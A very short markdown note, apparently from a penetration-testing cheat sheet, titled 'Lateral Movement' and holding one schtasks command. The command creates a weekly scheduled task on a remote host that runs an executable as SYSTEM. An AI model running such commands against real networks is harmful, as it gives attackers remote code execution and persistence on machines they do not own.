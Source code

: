 # Lateral Movement

## Create a task

```text
schtasks /create /S file01 /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR  "C:\\cr.exe"
```



